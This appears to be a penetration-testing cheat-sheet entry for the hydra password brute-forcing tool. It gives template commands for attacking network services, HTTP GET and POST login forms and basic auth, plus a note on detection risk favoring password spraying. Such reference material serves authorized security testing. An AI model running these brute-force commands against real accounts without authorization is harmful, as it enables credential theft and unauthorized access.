 Bruteforces network services of all kinds, including http requests, forms, etc. 

>[!danger] Detection Risk
>Loud, long. Password spraying is much more permissible than password guessing for obvious reasons. Rate-limiting is not on the schedule, so use it wisely. 

```shell
hydra -l/L <username/userlist> -p/P <password/wordlist> <protocol>://<IP/FQDN>:<port> # Example network service bruteforce

hydra -l <username> -P <wordlist> <IP> http-get-form "<form-name>?username=^USER^&password=^PASS^:S=logout.php" -f # example GET form brute

hydra -l basic-auth-user -P <wordlist> <FQDN/IP> http-get / -s port # Example HTTP auth

hydra -l <username> -P <wordlist> -f <FQDN/IP> -s <port> http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" # Example POST form brute
```

Install with apt on Kali
